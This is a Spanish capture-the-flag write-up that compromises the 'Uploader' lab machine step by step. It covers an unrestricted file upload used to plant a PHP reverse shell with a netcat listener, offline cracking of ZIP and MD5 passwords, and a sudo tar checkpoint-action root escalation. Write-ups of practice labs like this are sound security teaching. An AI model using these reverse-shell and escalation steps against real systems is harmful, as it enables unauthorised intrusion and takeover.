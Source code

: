 # 🚩 Write-up: Uploader

Aquí va el write-up completo de la máquina **Uploader**. Te cuento cómo pasé del escaneo inicial a ser **root**, paso a paso.

Les dejo el link de la máquina:
https://labs.thehackerslabs.com/machines/127
---

## Fase 1: Reconocimiento 🗺️

**IP del Objetivo:** `192.168.18.198`

Lancé un Nmap con todo para no dejarme ni un puerto TCP sin revisar:

```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.18.198 -oN escaneo.txt
```

### ¿Qué hace este comando?

- `-p- --open`: Escanea todos los puertos y solo muestra los que están abiertos.
- `-sSCV`: Lanza scripts básicos y trata de adivinar la versión de los servicios.
- `--min-rate 5000 -n -Pn`: Escaneo rápido, asumiendo que la máquina está viva y evitando resolución de DNS.
- `-oN`: Guarda la salida en un archivo para revisarla después.

**Resultados:**

- **Puerto 80/tcp:** HTTP - Servidor web **Apache 2.4.41** sobre Ubuntu. ¡Mi puerta de entrada!

---

## Fase 2: Acceso Inicial (Shell como www-data) 💻

Con el puerto 80 abierto, el camino estaba claro: atacar la aplicación web.

### La Vulnerabilidad

Navegando a `http://192.168.18.198`, encontré un formulario para subir archivos en `/upload.php`. Probé a subir un par de cosas y la página no bloqueó nada, sin filtros visibles. Esto olía a **Subida de Archivos Sin Restricciones**.

### Preparando el Arma

El plan era simple: subir una **reverse shell en PHP** para tener control del servidor. Agarré un script típico (el de PentestMonkey) y le puse mi IP y un puerto para que me llamara de vuelta:

```php
$ip = '[TU_IP_ATACANTE]';
$port = 4444;
```

### A la Escucha

Dejé a Netcat esperando la conexión en mi máquina:

```bash
nc -nlvp 4444
```

### ¡Adentro!

Subí el `shell.php` a través del formulario. Fui a la carpeta `/uploads` (`http://192.168.18.198/uploads/shell.php`), hice clic en mi archivo y... ¡bingo! Saltó la conexión en mi terminal. Ya tenía una shell como el usuario **www-data**.

---

## Fase 3: Escalada de Privilegios (a operatorx) 🔑

Ser **www-data** está bien, pero no es suficiente. Había que escalar.

### Buscando,buscando y buscando. . .

Mirando en `/home`, vi que existía un usuario llamado `operatorx`. Lancé un `find` para buscar archivos interesantes:

```bash
find / -type f -name "*.zip" 2>/dev/null
```

Y apareció algo jugoso: `/srv/secret/File.zip`.

### Extrayendo el Botín

El ZIP pedía contraseña. Para crackearlo, primero tenía que pasarlo a mi máquina.

En la máquina víctima (**www-data**), levanté un servidor web temporal con Python:

```bash
# Navegar al directorio donde está el archivo
cd /srv/secret/

# Levantar el servidor
python3 -m http.server 8000
```

En mi máquina de atacante, usé `wget` para descargarlo:

```bash
wget http://192.168.18.198:8000/File.zip
```

### Crackeando la Contraseña

Con el archivo en mi poder, usé **zip2john** y **John the Ripper**:

```bash
# Extraer el hash del ZIP
zip2john File.zip > zip.hash

# Crackear con el diccionario rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```

**Contraseña del ZIP:** `supersecret`

### Obteniendo las Credenciales

Dentro del ZIP había un archivo de texto con:

```
operatorx:5d41402abc4b2a76b9719d911017c592
```

Ese hash parecía **MD5**. Lo metí en **CrackStation** y salió al instante.

**Contraseña de operatorx:** `qwerty`

### Cambiando de Identidad

Con la contraseña en mano, me convertí en el nuevo usuario:

```bash
su operatorx
```

---

## Fase 4: Escalada a Root 👑

Ya casi estaba. Solo quedaba el último paso para ser el dueño de la máquina.

### ¿Qué puedo hacer con sudo?

Para ver qué superpoderes tenía `operatorx`, tiré:

```bash
sudo -l
```

**Resultado:**

```
User operatorx may run the following commands on uploader:
    (root) NOPASSWD: /bin/tar
```

**Análisis:** ¡Jackpot! Podía ejecutar `/bin/tar` como root y sin pedir contraseña. Un vector de escalada clásico.

### El Truco Final con tar

Se puede abusar de una funcionalidad de tar para ejecutar lo que yo quiera. Como lo ejecuto con `sudo`, se corre como **root**:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

**Cómo funciona:** Le digo a tar que cree un archivo de la nada, y justo después del primer "checkpoint", ejecute un comando: en este caso, una `/bin/bash`.

### ¡Somos Root!

Al ejecutar ese comando, la terminal se convirtió en una **shell de root**. Máquina comprometida.

